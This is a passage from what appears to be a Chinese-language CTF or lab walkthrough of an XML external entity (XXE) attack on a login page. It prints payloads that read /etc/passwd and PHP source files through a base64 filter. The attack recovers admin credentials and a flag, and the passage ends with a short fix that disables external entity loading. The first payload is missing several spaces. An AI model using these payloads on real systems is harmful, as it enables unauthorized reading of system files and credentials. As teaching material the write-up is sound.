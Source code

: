 ![1612763207_6020d047ddb5a8afa4371.png!small](https://image.3001.net/images/20210208/1612763207_6020d047ddb5a8afa4371.png!small)

看到存在两个页面，访问xxe目录

![1612763228_6020d05cbecc4e20bfec9.png!small](https://image.3001.net/images/20210208/1612763228_6020d05cbecc4e20bfec9.png!small)

发现是一个登录页面，那么输入账号密码，看看响应包是什么数据

![1612763247_6020d06fd49b0b607cbdf.png!small](https://image.3001.net/images/20210208/1612763247_6020d06fd49b0b607cbdf.png!small)

看到通过xml传输数据，那么是不是可以利用xxe漏洞呢？那就尝试常用读取文件的payload：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPEANY[<!ENTITYxxeSYSTEM"file:///etc/passwd"> ]><root><name>&xxe;</name><password>admin</password></root>
```

![1612763267_6020d08347f4f4d508297.png!small](https://image.3001.net/images/20210208/1612763267_6020d08347f4f4d508297.png!small)

居然成功读取了，存在xxe漏洞。

我们再查看一下，刚才robots.txt中的admin.php页面

![1612763287_6020d09708282dfabc913.png!small](https://image.3001.net/images/20210208/1612763287_6020d09708282dfabc913.png!small)

需要登录，那就利用xxe漏洞读取admin.php源。

这里构造payload的时候，使用base64方法读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=admin.php"> ]><root><name>&xxe;</name><password>admin</password></root>
```

![1612763311_6020d0af6d2358b0c5cf5.png!small](https://image.3001.net/images/20210208/1612763311_6020d0af6d2358b0c5cf5.png!small)

将响应包中的base64编码解码：

![1612763329_6020d0c1491a431b09b5b.png!small](https://image.3001.net/images/20210208/1612763329_6020d0c1491a431b09b5b.png!small)

看到登录页面的密码和账号，但是账号md5加密，解密就ok

![1612763347_6020d0d3301c89ec4385b.png!small](https://image.3001.net/images/20210208/1612763347_6020d0d3301c89ec4385b.png!small)

利用账号administhebest和密码admin@123 登录页面：

![1612763367_6020d0e725d273ee4e1e8.png!small](https://image.3001.net/images/20210208/1612763367_6020d0e725d273ee4e1e8.png!small)

页面出现flag，点击进去，页面跳转到flagmeout.php

![1612763385_6020d0f9dc8a7303a2800.png!small](https://image.3001.net/images/20210208/1612763385_6020d0f9dc8a7303a2800.png!small)

页面不显示，那么再利用xxe漏洞读取该文件内容

![1612763399_6020d107f2cf5119cd023.png!small](https://image.3001.net/images/20210208/1612763399_6020d107f2cf5119cd023.png!small)

然后把得到base64解密：

![1612763423_6020d11f2c08880cf747d.png!small](https://image.3001.net/images/20210208/1612763423_6020d11f2c08880cf747d.png!small)

成功拿到flag

## xee防御

通过上面学习总结，xxe漏洞产生的原因是，允许加载了外部实体。那么要防御禁止外部实体加载。

libxml_disable_entity_loader(true);

将false不禁止外部实体加载，改为true禁止外部实体加载。